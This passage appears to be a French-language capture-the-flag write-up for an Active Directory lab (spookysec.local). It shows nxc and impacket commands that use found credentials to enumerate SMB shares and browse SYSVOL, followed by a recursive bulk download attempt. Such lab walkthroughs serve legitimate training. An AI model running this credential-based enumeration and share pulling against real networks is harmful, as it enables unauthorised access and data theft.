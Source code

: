 
```terminal
└─# nxc smb $ip -u svc-admin -p 'management2005' --shares
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005 
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [*] Enumerated shares
SMB         10.10.237.76    445    ATTACKTIVEDIREC  Share           Permissions     Remark
SMB         10.10.237.76    445    ATTACKTIVEDIREC  -----           -----------     ------
SMB         10.10.237.76    445    ATTACKTIVEDIREC  ADMIN$                          Remote Admin
SMB         10.10.237.76    445    ATTACKTIVEDIREC  backup          READ            
SMB         10.10.237.76    445    ATTACKTIVEDIREC  C$                              Default share
SMB         10.10.237.76    445    ATTACKTIVEDIREC  IPC$            READ            Remote IPC
SMB         10.10.237.76    445    ATTACKTIVEDIREC  NETLOGON        READ            Logon server share 
SMB         10.10.237.76    445    ATTACKTIVEDIREC  SYSVOL          READ            Logon server share 
```

Plein de `shares` disponible et j'ai des droit de `READ` dans plein d'entre eux. et ici d'apres Google, l'un des plus importants `shares` ici est le `SYSVOL`. Donc essayons voir


```terminal
─# impacket-smbclient spookysec.local/svc-admin:management2005@10.10.237.76
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra
Type help for list of commands
# shares
ADMIN$
backup
C$
IPC$
NETLOGON
SYSVOL
# use SYSVOL
# ls
drw-rw-rw-          0  Sat Apr  4 13:39:35 2020 .
drw-rw-rw-          0  Sat Apr  4 13:39:35 2020 ..
drw-rw-rw-          0  Sat Apr  4 13:39:35 2020 spookysec.local
# cd spookysec.local
# ls
drw-rw-rw-          0  Sat Apr  4 13:40:55 2020 .
drw-rw-rw-          0  Sat Apr  4 13:40:55 2020 ..
drw-rw-rw-          0  Mon Feb 26 17:54:50 2024 DfsrPrivate
drw-rw-rw-          0  Sat Apr  4 13:39:35 2020 Policies
drw-rw-rw-          0  Sat Apr  4 13:39:35 2020 scripts

```

Pour telecharger les fichiers en local

```terminal
─# smbclient \\\\10.10.237.76/SYSVOL -U svc-admin
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 13:39:25 2020
  ..                                  D        0  Sat Apr  4 13:39:25 2020
  spookysec.local                    Dr        0  Sat Apr  4 13:39:25 2020

                8247551 blocks of size 4096. 3580186 blocks available
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \spookysec.local\DfsrPrivate\*
```